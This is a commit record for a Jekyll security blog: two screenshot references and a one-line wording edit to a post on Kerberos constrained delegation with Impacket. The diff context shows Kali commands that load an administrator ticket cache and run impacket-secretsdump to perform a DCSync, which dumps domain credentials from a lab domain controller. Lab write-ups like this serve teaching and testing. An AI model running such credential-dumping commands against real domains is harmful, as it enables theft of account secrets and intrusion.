

Before and after one commit to 0xZon/0xZon.github.io, a Jekyll site: the page built from _posts/2023-05-07-Constrained-Delegation-With-Impacket.md.md, in a window 1280 px wide and 900 px high, scrolled down 2491 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2023-05-07-Constrained-Delegation-With-Impacket.md.md

````diff
--- a/_posts/2023-05-07-Constrained-Delegation-With-Impacket.md.md
+++ b/_posts/2023-05-07-Constrained-Delegation-With-Impacket.md.md
@@ -46,7 +46,7 @@ The ticket was then exported in kali
 └─# export KRB5CCNAME=administrator.ccache
 ```
 
-The DCSync was performed. Impacket connected to the domain controller via smb to perform the DCSync.
+The DCSync was performed using the ticket. Impacket connected to the domain controller via smb to perform the DCSync.
 ```
 ┌──(root㉿kali)-[~/impacket/examples]
 └─# impacket-secretsdump -k dc.lotr.local -just-dc
````
